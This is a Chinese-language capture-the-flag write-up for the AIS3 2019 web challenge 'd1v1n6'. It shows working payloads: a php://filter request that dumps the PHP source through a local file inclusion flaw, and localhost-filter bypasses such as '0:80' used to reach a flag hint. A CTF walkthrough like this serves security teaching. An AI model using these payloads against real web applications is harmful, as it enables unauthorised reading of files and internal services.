 # AIS3 pre-exam 2019: d1v1n6

**Category:** Web  
**Description:**  

>http://pre-exam-web.ais3.org:10103/

## Write-up

該題的頁面有給個超連結，點了之後可以發現 URL 的變化變成 `?path=hint.txt`，光是這一點就可以猜可能是考 LFI。  

嘗試改為 `index.php` 卻出現 `Detected "flag" in content. Not showing!` 該段字，表示內容中存在 `flag` 所以不予顯示，這時就直接聯想到可以透過 PHP 偽協議來將內容轉為 Base64 或 ROT13。  

```
/?path=php://filter/convert.base64-encode/resource=index.php
```

便取得該程式的原始碼，如下（若使用 base64，由於有限制大小的關係，不會將完整程式碼下載下來，可以改用 ROT13，但該地方其實不影響）。

```PHP
<?php

    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {

        // show path of the flag
        die($_ENV['FLAG_HINT']);
    }


    if ($path = @$_GET['path']) {
        $path = trim($path);

        if (preg_match('/https?:\/\/([^s\/]+)/i', $path, $g)) {
            // resolve ip address
            $ip = gethostbyname($g[1]);

            // no local request
            if ($ip == '127.0.0.1' || $ip == '0.0.0.0')
                die('Do not request to localhost!');
        }

        // no flag in path
        $path = preg_replace('/flag/i', '', $path);

        if ($content = @file_get_contents($path, FALSE, NULL, 0, 1000)) {

            // no flag in content
            if (preg_match('/flag/i', $content)) {
                die('Detected "flag" in content. Not showing!')

```

可以看到最關鍵的地方。

```PHP
    if ($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {

        // show path of the flag
        die($_ENV['FLAG_HINT']);
    }
```

當 `REMOTE_ADDR` 為 127.0.0.1 時，就會秀出 Flag，但還有一個問題，如下。

```php
if (preg_match('/https?:\/\/([^s\/]+)/i', $path, $g)) {
     // resolve ip address
    $ip = gethostbyname($g[1]);

    // no local request
    if ($ip == '127.0.0.1' || $ip == '0.0.0.0')
        die('Do not request to localhost!');
}
```

當 ip 等於 `127.0.0.1` 或 `0.0.0.0` 時，就會跳出 `Do not request to localhost!` 訊息，所以常用的方法會被過濾掉，如下。

```
/?path=http://127.0.0.1/index.php
/?path=http://0.0.0.0/index.php
```

但可以取代 `127.0.0.1`、`0.0.0.0` 的方法其實不少，例如 `127.0.0.1:80` 或是 `loaclhost`，甚至 `0:80`，都可以成功繞過。  

接著就會得到 Flag 的路徑，在直接存取該頁面即可得到 Flag。  

![](./img/01.png)

同時也得到第二題「d33p3r」的提示。
